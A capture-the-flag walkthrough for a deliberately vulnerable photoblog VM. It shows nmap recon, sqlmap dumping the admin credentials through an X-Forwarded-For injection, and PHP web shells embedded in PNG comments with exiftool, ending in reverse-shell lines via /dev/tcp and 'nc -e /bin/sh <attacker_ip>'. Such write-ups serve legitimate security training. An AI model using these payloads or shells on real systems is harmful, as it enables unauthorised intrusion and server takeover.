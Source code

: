 # Blind SQLi to Shell II
## _Walkthrough_

The first thing to do is to deploy the iso, I used VMWare, and get the ip (using the command __ifconfig__).



![image](https://user-images.githubusercontent.com/38219437/138444044-8bb3effe-29b2-486c-bc0d-4dc96f89407a.png)


## Recon

### Tecnologies used:

```
nmap -sC -sV 192.168.77.128 -p-

-sV check services and versions
-sC script scan
```
  **Output:**
```
80/tcp open  http    nginx 0.7.67
|_http-server-header: nginx/0.7.67
|_http-title: My Photoblog - latest picture

```
```
HTTP/1.1 200 OK
Server: nginx/0.7.67
Date: Thu, 21 Oct 2021 13:40:51 GMT
Content-Type: text/html
Connection: close
X-Powered-By: PHP/5.3.3-7+squeeze15
Content-Length: 1347
```
### Technologies Used


##### NGINX 0.7.67
##### PHP/5.3.3-7+squeeze15


## Attack method

### Blind SQLi

I use this website to learn more about the differents usages of **sqlmap**:
https://book.hacktricks.xyz/pentesting-web/sql-injection/sqlmap

**SQLMap arguments I tried:**
```
$ sqlmap -u "http://192.168.77.128/cat.php?id=*" -p id

$ sqlmap -u "http://192.168.77.128/" --headers "referer:*"

$ sqlmap -u "http://192.168.77.128/" --headers "x-forwarded-for:*"
```

**SQLMAP to find the number of databases and it's names**

```
$ sqlmap -u http://192.168.77.128/ --headers "x-forwarded-for: *" --dbs --dump-all

[*] information_schema
[*] photoblog

$ sqlmap -u http://192.168.77.128/ --headers "x-forwarded-for: *" --tables -D photoblog


Database: photoblog

1. Tables: 4
2. Names: categories, pictures, stats, users

Table: users


$ sqlmap -u http://192.168.77.128/ --headers "x-forwarded-for: *" -D photoblog -T users --dump

Database: photoblog
Table: users
[1 entry]
+----+-------+---------------------------------------------+
| id | login | password                                    |
+----+-------+---------------------------------------------+
| 1  | admin | 8efe310f9ab3efeae8d410a8e0166eb2 (P4ssw0rd) |
+----+-------+---------------------------------------------+
```
**Now that we have the username and the password, we can log in as admin.**

![image](https://user-images.githubusercontent.com/38219437/138444198-b7ffc49e-1a2a-4bee-a545-b7538b5352ec.png)

**After some recon we are able to note only one point to explore, and gain a reverse shell: upload images feature.**



![image](https://user-images.githubusercontent.com/38219437/138444141-db3947ae-5757-4e5c-bfbb-19f0aeca7db2.png)

### Upload png file with php backdoor

**Things I try without success:**
1. Just uploading .php file instead of jpg file
2. Tried Case sensitives — pic.PhP also tried pic.php5, pHP5.
3. Bypass uploads rules by intercepting the request and change the content-type to __image/jpeg__ 
(https://vulp3cula.gitbook.io/hackers-grimoire/exploitation/web-application/file-upload-bypass)

4. Trying double extensions to bypass and upload php file image.jpg.php or image.php.jpg

## Final method

**First we create a php file with a php backdoor inside it:**

```
<?php $cmd=$_GET['c']; system($c); ?>
``` 
or
```
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/172.19.178.103/2222 0>&1'");?>.
```
or 
```
<?php

if(isset($_REQUEST['cmd'])){
    echo "<pre>";
    $cmd = ($_REQUEST['cmd']);
    system($cmd);
    echo "</pre>";
    die;
}
?>
```

Explanation of the code:

1. First the code checks if there's a **c** parameter in the url;
2. Assigns the content of the parameter **c** to the variable **c**
3. System() is for executing a system command on the server.



**Using exiftool we are going to add a comment with our payload o the image**

```
exiftool "-comment<=file.php" tux.png
```

We are now ready to upload our __image__ and generate a reverse shell.


## Now you can upload the file. After the upload you can trigger the backdoor usin this for the first two:

```
(...).png/c.php
```
### And this one for the third:

```
(...).png/c.php?c=ls
```

__We need to add cmd.php, otherwise the photo is displayed instead of the code we want__

To create a reverse shell we use the following code instead of __ls__:
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#netcat-traditional

Attackers machine:
```
nc -lvp 1234
```

Command cmd=
```
nc -e /bin/sh <attacker_ip> <nc_listener_port>
```
